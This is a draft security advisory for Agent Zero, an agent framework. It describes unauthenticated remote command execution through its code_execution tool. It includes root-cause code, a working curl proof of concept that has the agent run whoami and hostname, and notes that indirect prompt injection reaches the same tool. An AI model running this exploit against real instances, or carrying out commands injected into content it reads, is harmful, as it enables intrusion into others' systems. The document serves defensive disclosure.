


# Agent Zero — Unauthenticated Command Execution via `code_execution`


> **Summary** — Agent Zero ships with web-UI authentication disabled (`AUTH_LOGIN` unset) and enables the `code_execution` plugin by default. Any client that can reach the chat API without credentials can drive the built-in agent to invoke `code_execution`, which writes the model-generated string to a persistent shell. The result is arbitrary operating-system command execution with the privileges of the Agent Zero process.

<!--
  STATUS — 2026-11-16: not yet submitted to any CNA. This file is a draft
  prepared for a future cve.org request.
  Remaining items before submission: exact version/commit, and (optionally)
  a Docker-based retest to support AV:N. See PUBLISH_CHECKLIST.md.
-->

## Metadata

| Field | Value |
|---|---|
| Vendor | agent0ai (formerly frdel) |
| Product | Agent Zero |
| Repository | https://github.com/agent0ai/agent-zero |
| Affected versions | v2.0 – v2.15 |
| Vulnerability class | CWE-306 (primary), CWE-78 (secondary) |
| CVSS 3.1 (measured) | **8.4 High** — `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| CVSS 3.1 (documented Docker deployment) | **9.8 Critical** — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| Status | Draft — no CVE ID requested yet |
| Tested on | Agent Zero v2.15, source install via `run_ui.py`, 2026-11-16 |
| Reporter | Independent researcher |

> **Why two vectors.** The measured run used a source install, and `run_ui.py` binds to `localhost` by default. That supports `AV:L` only, hence 8.4. The second vector applies to the Docker deployment documented for v1.10–v2.14, where the published command maps the web port on all interfaces (`-p 80:80`). That configuration is not separately reproduced in this report yet; it is derived from the vendor's own documented command, not from a live test. Submitting the 9.8 vector requires completing that retest.

## Summary

Agent Zero is an open-source autonomous agent framework. Its `code_execution` plugin lets agents run terminal commands, Python, and Node.js in persistent shell sessions. Authentication is opt-in: `helpers/login.py` returns `None` from `get_credentials_hash()` whenever `AUTH_LOGIN` is empty, and the `requires_auth` decorator then lets the request through unchanged.

Three properties combine into a security issue:

1. **No authentication by default.** A request without credentials is not rejected; it is treated as an authenticated operator.
2. **The chat endpoint reaches an execution-capable tool.** `POST /api/message` feeds operator text to the agent, which can call `code_execution`. The tool has no allow-list, no per-command confirmation, and no sandbox.
3. **Tool calls are not gated.** Content the agent reads — a web page, an uploaded file, a document — can carry instructions that cause a tool call (indirect prompt injection). The operator does not have to ask for command execution.

## Affected versions

| Version | Status |
|---|---|
| Agent Zero v2.x (tested 2026-11-16) | **Confirmed affected** |
| v2.9 – v2.15 | Affected — sink at `shell_local.py:66`, auth bypass present in `helpers/api.py` |
| v2.0 – v2.5 | Affected — same code path, sink at `shell_local.py:59` (line number differs) |
| v1.x | Not tested |

> The exact build was not recorded during testing. The finding was reproduced on a default v2 source install on 2026-11-16; an exact tag or commit will be added here before submission.

Affected components:

- `plugins/_code_execution/tools/code_execution_tool.py` — tool entry and dispatch
- `plugins/_code_execution/helpers/shell_local.py` — command sink
- `helpers/login.py`, `helpers/api.py` — authentication gate that defaults to open

## Root cause

### 1. Authentication is opt-in, and absence of a password means no check

```python
# helpers/login.py
def is_login_required():
    user = dotenv.get_dotenv_value(dotenv.KEY_AUTH_LOGIN)
    return bool(user)


# helpers/api.py — applied to every API handler by default
def requires_auth(f):
    @wraps(f)
    async def decorated(*args, **kwargs):
        user_pass_hash = login.get_credentials_hash()
        if not user_pass_hash:
            return await f(*args, **kwargs)      # no credentials configured -> allow
        if session.get("authentication") != user_pass_hash:
            return redirect(url_for("login_handler", ...))
        return await f(*args, **kwargs)
    return decorated
```

An unset `AUTH_LOGIN` does not lock the UI; it turns the check into a pass-through.

### 2. The documented Docker command has not always bound to loopback

```bash
# v1.10 – v2.14 (README): port published on all interfaces
docker run -p 80:80 -v a0_usr:/a0/usr agent0ai/agent-zero

# v2.15 onwards (README): changed to loopback
docker run -d -p 127.0.0.1:5080:80 -v a0_usr:/a0/usr agent0ai/agent-zero
```

The change in v2.15 is itself an acknowledgement that network exposure of an unauthenticated UI is a risk. Instances deployed with the earlier documented command, or with a source install started as `--host 0.0.0.0`, remain reachable from the network.

### 3. Chat input reaches an execution-capable tool

`CodeExecution.execute()` receives the tool arguments from the LLM call. The command is taken verbatim from `args["code"]`:

```python
# plugins/_code_execution/tools/code_execution_tool.py
response = await self.execute_terminal_command(
    cfg, command=self.args["code"], ...
)
...
await self.state.shells[session].session.send_command(command)
```

### 4. The tool writes the string to the shell unchanged

```python
# plugins/_code_execution/helpers/shell_local.py
async def send_command(self, command: str):
    if not self.session:
        raise Exception("Shell not connected")
    self.full_output = ""
    await self.session.sendline(command)   # no validation, no approval, no sandbox
```

The `_code_execution` plugin ships enabled (no `.toggle-0` marker in the plugin directory), and `plugins/_tool_access/default_config.yaml` — the policy plugin introduced in v2.9 — resolves to `default: allow` with empty `blocked:`. A policy mechanism exists, but out of the box it permits execution.

Agent Zero also ships `_infection_check`, a safety middleware that inspects agent output for prompt injection before tool execution. It is **disabled by default** (`.toggle-0` is present in the plugin directory), so no injection gate applies to a default install.



*Figure 1 — the sink: `sendline(command)` writes the model-generated string to the TTY.*

## Proof of concept

The test used a read-only reconnaissance payload. No destructive command was executed.

The CSRF token is bound to the session, so both requests must share a cookie jar:

```bash
TARGET=http://127.0.0.1:5000
JAR=$(mktemp)

# 1. Obtain a CSRF token. No credentials. The cookie jar is required:
#    api/csrf_token.py stores the token in the session and csrf_protect
#    compares it against the session value on the next request.
TOKEN=$(curl -s -c "$JAR" "$TARGET/api/csrf_token" \
  -H "Origin: $TARGET" | jq -r .token)

# 2. Ask the agent to run a command.
curl -s -b "$JAR" -X POST "$TARGET/api/message" \
  -H "Origin: $TARGET" \
  -H "X-CSRF-Token: $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "text": "Please run this read-only command and show me the full raw output: echo A0-POC && whoami && hostname",
    "context": "poc"
  }'
```

Observed response (redacted):

```text
A0-POC
User
USER-********
```

The command ran on the host as the Agent Zero process user and the output was returned in the HTTP response.



*Figure 2 — the PoC sending the chat request.*

A standalone script is provided in [`poc/poc_cmd_exec.py`](poc/poc_cmd_exec.py):

```bash
python poc/poc_cmd_exec.py --target http://127.0.0.1:5000
```

## Steps to reproduce

Precondition: the target must have a model provider configured. A fresh install with no model returns `{"model_not_configured": true}` from `POST /api/message` and never reaches the tool. This is a real constraint on exploitability and is reflected in the CVSS `AC` discussion below.

1. Install Agent Zero v2 from source and start it with `python run_ui.py` (default configuration; do not set `AUTH_LOGIN`).
2. Configure a model provider so the agent can call tools.
3. Confirm the instance is reachable without a login: `curl -i http://127.0.0.1:5000/api/csrf_token`
4. Run `python poc/poc_cmd_exec.py --target http://127.0.0.1:5000`.
5. Observe the marker and the host output in the HTTP response.

To test network reachability, deploy with the Docker command documented for v1.10–v2.14 and repeat step 4 from another host.

## Impact

Arbitrary command execution as the user running Agent Zero.

- **Confidentiality** — read files the agent process can access, including model API keys in `usr/.env`, conversation data, and mounted volumes. Not separately demonstrated in this report.
- **Integrity** — modify agent configuration, plant persistence, or alter files writable by the process.
- **Availability** — stop or damage the service.

In the Docker deployment the agent commonly runs as root inside the container; with host bind mounts, data outside the container can be affected. Because tool invocation is not gated, the same primitive is reachable through indirect prompt injection in content the agent processes.

## Related observation: the Origin allow-list populates itself

`api/csrf_token.py` gates token issuance on an `ALLOWED_ORIGINS` check when login is disabled. If `ALLOWED_ORIGINS` is unset, `initialize_allowed_origins()` takes the Origin of the **first request it sees**, appends it to the list, and persists it to `.env`:

```python
def initialize_allowed_origins(self, request: Request):
    denv = dotenv.get_dotenv_value(ALLOWED_ORIGINS_KEY)
    if denv:
        return
    req_origin = self.get_origin_from_request(request)
    ...
    allowed_origins.append(req_origin)
    dotenv.save_dotenv_value(ALLOWED_ORIGINS_KEY, ",".join(allowed_origins))
```

The check therefore does not establish a boundary against a new client: the first visitor is added to the allow-list and subsequent requests from that origin pass. This code is present unchanged in v2.0 through v2.15. It is noted as an observation, not as a separate CVE claim.

## Why this is not "intended behaviour"

Agent Zero is designed to execute terminal commands — that is the purpose of `code_execution`. The security issue is not that the tool exists, but that **the default deployment provides no boundary between an unauthenticated client and that tool**:

- The terminal tool assumes an operator who owns the machine. A disabled-by-default authentication check breaks that assumption.
- The tool call is not gated by an approval step, and the bundled injection check is off by default.
- The vendor moved the documented Docker command to loopback binding in v2.15, which indicates the exposure was recognised as a risk.

## Remediation

- Require authentication by default: refuse to start on a non-loopback interface unless `AUTH_LOGIN` and `AUTH_PASSWORD` are set.
- Gate execution-capable tools behind an explicit per-command approval step, or set `_tool_access` to `default: deny` with an explicit allow-list.
- Enable `_infection_check` by default for installs that ingest untrusted content.
- Run the agent as an unprivileged user, in a container without host mounts, with a read-only filesystem where possible.

## Timeline

| Date | Event |
|---|---|
| 2026-11-16 | Vulnerability verified on a self-hosted source install |
| 2026-11-16 | This draft prepared; no CNA contacted, no CVE ID requested |

## References

- Agent Zero — https://github.com/agent0ai/agent-zero
- CVE-2026-51853 — directory traversal in `file_browser.py` (affected versions 1.7–1.10; the CVE record itself carries no CVSS score and does not discuss authentication) — https://www.cve.org/CVERecord?id=CVE-2026-51853
- CVE-2026-51852 — directory traversal in `file_browser.py:save_file_b64` — https://www.cve.org/CVERecord?id=CVE-2026-51852
- CVE-2026-30624 — RCE via MCP server configuration (different component) — https://www.cve.org/CVERecord?id=CVE-2026-30624
- MITRE CNA-LR request guidance — https://mitre.github.io/mitre-cve-roles/cve-id-request/cvss4.html

## Disclosure

This research was performed on a self-hosted instance for defensive purposes. The proof of concept uses a read-only payload (`echo`, `whoami`, `hostname`). No third-party system was accessed.

If you operate Agent Zero: set `AUTH_LOGIN` / `AUTH_PASSWORD`, bind it to loopback, and do not expose the web UI to untrusted networks until it is patched.

## Credits

Reported by an independent security researcher.
